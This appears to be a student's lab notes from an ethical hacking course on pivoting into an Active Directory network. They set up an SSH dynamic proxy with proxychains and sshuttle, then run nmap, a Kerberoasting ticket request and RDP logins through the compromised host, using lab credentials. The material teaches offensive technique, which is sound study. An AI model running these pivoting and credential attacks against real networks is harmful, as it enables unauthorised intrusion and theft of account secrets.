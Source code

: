 if we try with a new tab to ping the network:
=>
we don't receive response -->  bc we don't have access to it
=>
<span style="background:#fff88f">what we need:</span>
<span style="color:#00b050">establish a pivot</span>:
- <span style="color:#00b050">from</span> the victim machine (`10.10.155.5`)
- <span style="color:#00b050">to</span> the network (`10.10.10.5`)
=>
so that we can -->  <span style="color:#00b050">access to the network</span>

### Proxychains
#AD_tool
first we need to look at -->  proxychains config file
`cat /etc/proxychains.conf` 
![[Pasted image 20240305140259.png]]
we'll use the port 9050 -->  to bind to
=>
`ssh -f -N -D 9050 -i pivot root@10.10.155.5`
`-i` -->  identity (is a file for login)
`-f` -->  run ssh in background
`-N` -->  we don't want to execute command (it's ideal for port forwarding)
`-D` -->  we want to bind the port on port 9050
=>
what happen when we type enter:
![[Pasted image 20240305140741.png]]
we establish a connection with the victim machine in background
=>
now we can -->  <span style="color:#00b050">proxy our traffic through this machine to access the next network</span> 
=>
what can we do:
different things:
- run nmap through proxychains:
  `proxychains nmap -p88 10.10.155.5`       (port 88 bc in this example there is Domain                                                                                         Controller on this port)
- run attacks:
  run [[Notes_ETH#Kerberoasting|kerberoasting attack]]:
  `proxychains GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 10.10.155.5 -request`
  (after we can decrypt the hash)
  
- access the machine:
  `proxychains xfreerdb /u:administrator /p:'Hacker321!' /v:10.10.155.5

- open the browser:
  `proxychains firefox`

### sshuttle
#AD_tool
`sshuttle -r root@10.10.155.5 10.10.10.0/24 --ssh cmd "ssh -i pivot"`
- run this `root@10.10.155.5`
- through that user -->  establish a connection to this `network 10.10.10.0/24`
- run the ssh command `"ssh -i pivot"`
